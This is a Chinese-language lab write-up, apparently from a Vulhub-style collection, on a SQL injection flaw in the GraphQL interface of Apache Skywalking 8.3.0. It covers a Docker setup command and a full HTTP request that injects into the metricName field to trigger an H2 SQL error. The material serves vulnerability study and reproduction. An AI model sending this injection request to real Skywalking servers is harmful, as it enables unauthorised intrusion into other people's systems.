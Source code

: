 # Apache Skywalking 8.3.0 SQL注入漏洞

## 漏洞描述

Apache Skywalking是一款针对分布式系统的应用程序性能监视工具，为微服务，云原生和基于容器（Docker，Kubernetes，Mesos）的体系结构而设计。

在Apache Skywalking 8.3.0版本及以前的GraphQL接口中，存在一处H2 Database SQL注入漏洞。

参考链接：

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## 环境搭建

Vulhub执行如下命令启动一个Apache Skywalking 8.3.0版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看Skywalking的页面。

## 漏洞复现

可见，SQL语句已经出错，`metricName`参数的值被拼接到`from`后面。

![image-20220301101805554](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011018294.png)

这个请求的HTTP数据包为：

```
POST /graphql HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 405

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```